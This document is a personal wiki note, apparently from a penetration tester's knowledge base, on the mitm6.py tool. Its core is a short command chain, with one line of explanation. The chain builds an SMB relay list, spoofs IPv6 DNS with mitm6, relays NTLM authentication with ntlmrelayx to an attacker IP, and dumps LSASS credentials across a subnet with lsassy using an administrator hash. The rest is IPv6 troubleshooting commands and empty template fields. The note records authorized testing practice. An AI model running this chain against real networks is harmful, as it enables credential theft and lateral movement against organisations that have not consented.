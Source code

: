 ```yaml
---
creation date: November 29th 2021
last modified date: November 29th 2021
aliases: []
tags: #📖
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📖  

# [[mitm6.py]]  
---

This is often used with responder and ntlmrelayx. It abuses ipv6 to relay authenication attempts or capture hashes. There is a good way to use it here [[ntlmrelayx.py#^331793]]



## Get a Relay List 
```bash 
cme smb 1.1.1.1/24 --gen-relay-list relays.txt 

mitm6.py -i eth0 -d attacker.domain.local

ntlmrelayx.py -6 -wh $attacker_ip -of loot -tf relays.txt -smb2support

lsassy -d localhost -u administrator -H REDACTED 192.168.1.0/24 -o lsassyout.txt 

cat lsassyout.txt 
```

## Troubleshoot

### Enable IPv6 Link Local Address

```bash
sysctl -w net.ipv6.conf.eth0.disable_ipv6=0
ip -6 addr flush dev eth0 scope link
sysctl net.ipv6.conf.eth0.addr_gen_mode=0
sysctl net.ipv6.conf.eth0.addr_gen_mode=1
```
May also need to edit `/etc/sysctl.conf`
___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: November 29th 2021 (02:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
